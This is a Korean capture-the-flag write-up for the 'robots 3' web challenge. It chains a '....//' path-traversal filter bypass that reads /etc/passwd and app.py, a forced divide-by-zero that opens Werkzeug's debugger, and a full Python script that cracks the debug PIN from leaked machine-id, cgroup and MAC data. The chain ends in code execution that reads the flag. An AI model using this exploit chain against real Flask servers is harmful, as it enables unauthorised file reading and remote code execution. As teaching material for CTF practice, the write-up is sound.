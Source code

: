 # [Web] robots 3

## Summary

1. Local File Inclusion을 통한 app.py 유출(../ 필터링 우회 -> ....////)
2. zero division exception 발생을 통한 metadata 입수
3. Local File Inclusion을 통한 Werkzeug Debug Pin Crack 데이터 입수
4. exploit pin
5. RCE on Server

## Description

*@author r99bbit*

<br/>

감히 인간 따위가 로봇을 공격하다니.. 이젠 모든 취약점을 막았으니 `flag`를 획득할 수는 없을 것이다..!

<br/>

`robots3`의 서버에 침투했었던 한 연구원의 증언에 의하면 `robots2`에 존재하던 취약점은 `replace()`에 의해 방어되었다고 한다.

```
replace(<공격 문자열>, '')
```

<br>

접속정보 : `robots2` 문제의 접속 서버 포트 + 77

<br/>

FLAG 위치는 `/flag` 입니다.

<br/>

FLAG 형식은 `JFS{...}` 입니다.

## Solve

- robots2에 존재하던 LFI 취약점이 replace에 의해 방어된 듯 하지만, 다음과 같은 방법으로 우회 가능하다

```
$ curl http://34.64.214.222/getImage?filename=....//....//....//....//....//....//....//....//....//etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
robots3:x:1000:1000::/home/robots3:/bin/sh
```



- 이를 이용하여 app.py를 leak할 수 있다.

```
$ curl http://34.64.214.222/getImage?filename=....//....//app.py
from flask import Flask, request
import os
import uuid

app = Flask(__name__)
....
```



- `app.py` 라우팅에 무엇인가 추가되었다. `/div` 라우팅을 통해 zero division exception을 발생시킬 수 있으며, debug 플래그가 True로 되어있어 Werkzeug Debug에 진입할 수 있을 것이라는 것을 확인할 수 있다.

```
@app.route('/mul')
def mul():
    try:
        param = request.args.to_dict()
        arg1 = int(param['arg1'])
        arg2 = int(param['arg2'])
        res = arg1 * arg2
        res = "result : " + str(res)
        return res
    except:
        return "error."

@app.route('/div')
def div():
    try:
        param = request.args.to_dict()
        arg1 = int(param['arg1'])
        arg2 = int(param['arg2'])
    except:
        return "error."
    res = arg1 / arg2
    res = "result : " + str(res)
    return res

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=80)
```

- LFI 취약점과 Exception 발생으로 인한 Werkzeug Debug 상태를 조합하면 Debug Pin을 Crack하여 RCE 할 수 있다. `/etc/machine-id`, MAC 주소를 포함하여 일련의 pin 생성 과정이 존재하는데, 이는 python 버전만 알 수 있다면 충분히 exploit할 수 있다.
- python3.6 기준으로 exploit을 해보면 아래와 같다.

```
import hashlib
from itertools import chain
import requests

HOST = 'http://localhost:80'

def generate(id):
	linux = id
	linux = linux.replace('\n', '')
	CGROUP = requests.get(f'{HOST}/getImage?filename=....//....//....//....//....//....//....//proc/self/cgroup').text
	
	f = open('cgroup', 'w')
	f.write(CGROUP)
	f.close()
	
	with open("cgroup", "rb") as f:
		linux += str(f.readline().strip().rpartition(b"/")[2])
	
	linux = linux.replace("b'", "")
	linux = linux.replace("'", "")

	return linux

def getnode(macaddr):
	macaddr = macaddr.replace(':', '')
	macaddr = macaddr.replace('\n', '')
	macaddr = '0x' + macaddr
	return str(int(macaddr, 0))

MAC_ADDR = requests.get(f'{HOST}/getImage?filename=....//....//....//....//....//....//....//sys/class/net/eth0/address').text
MAC_ADDR = getnode(MAC_ADDR)

MACHINE_ID = requests.get(f'{HOST}/getImage?filename=....//....//....//....//....//....//....//etc/machine-id').text
MACHINE_ID = generate(MACHINE_ID)

probably_public_bits = [
	'robots3', # username
	'flask.app',# modname 고정
	'Flask',    # getattr(app, '__name__', getattr(app.__class__, '__name__')) 고정
	'/usr/local/lib/python3.6/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]
 
private_bits = [
	MAC_ADDR, # /sys/class/net/ens4/address 
	MACHINE_ID
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode("utf-8")
	h.update(bit)
h.update(b"cookiesalt")
 
cookie_name = f"__wzd{h.hexdigest()[:20]}"
 
num = None
if num is None:
	h.update(b"pinsalt")
	num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv =None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = "-".join(
				num[x : x + group_size].rjust(group_size, "0")
				for x in range(0, len(num), group_size)
			)
			break
	else:
		rv = num

print(rv)
```

```
# python3 exploit.py 
479-661-428
```

- debug pin을 Werkzeug Debug에 입력하면 서버에 Python 코드로 RCE가 가능하다.

```
>>> import os
>>> os.popen("/flag").read()
'JFS{Be4t_the_de6ug_9in_!&^&}'
>>> 
```

- `JFS{Be4t_the_de6ug_9in_!&^&}`

